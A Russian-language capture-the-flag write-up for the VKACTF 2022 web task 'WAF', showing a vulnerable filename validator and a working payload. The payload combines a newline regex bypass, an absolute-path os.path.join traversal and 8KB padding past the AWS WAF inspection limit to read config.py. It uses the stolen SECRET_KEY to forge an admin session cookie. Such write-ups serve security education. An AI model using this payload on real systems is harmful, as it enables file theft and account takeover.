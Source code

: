 ## WAF

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF 2022 | Web Application Files  | Web | Средняя |

  
### Описание


> Автор: [ vChuk ]
>
> Стоит возле леса избушка на кибер-протезах. Многие молодцы просили их накормить и спать уложить хозяйку, да только не возвращался из них никто. Не доверяй своему зрению коли пойдешь к ней, не слушай речей сладких, не кушай яблочек красных – меч обнажи и только вперед иди…


### Решение
В веб приложении был функционал, позволяющий читать файлы других юзеров. На имя файла, происходила проверка
```python
BLACK_LIST = ["/", "#", "!", "@", ";", '"', "'"]

def validator(name):
    for element in BLACK_LIST:
        if re.match(rf".*{element}.*", name):
            return None, "Обнаружен запрещенный символ"
    if ".." in name: return None, "Обнаружен запрещенный символ!"   # <- DETECT LFI
    
    return name.strip(), None
```
Ошибка заключалась, в том, что re.match - ищет значения на первой строчке, т.е. до первого символа "\n". 

При составлении пути был контроль только над filename, ".." был явно запрещен, но os.path.join реалезован так, что если аргумент функции начнется с "/", путь будет составлен с корневой папки, и ошибки при этом не будет.     
```python
path = os.path.join(app.config['UPLOAD_FOLDER'],
                    usershare,
                    filename
                )
```

Последней защитой был WAF AWS. Его обход был возможен с помощью, так называемой [8KB bullet](https://kloudle.com/blog/the-infamous-8kb-aws-waf-request-body-inspection-limitation)

Объединив эти ошибки получаем возможность эксплуатации LFI.
Нагрузкой служит конструкция

```python
payload = " " * 1024 * 8
payload += "\n"
payload += full_path

# POST /share
usershare=some_username
filename = payload 
```

Т.к. неизвестно, какой файл необходимо прочиать, то остается вариант подделать сессию. SECRET_KEY находится в config.py

```python
payload = " " * 1024 * 8
payload += "\n"
payload += "/home/app/web/project/config.py"
```

Получив SECRET_KEY, генерируем куки admin и получаем файл c флагом. 

### Флаг

```
vka{waf_security_but_you_can_avoided_it}
```
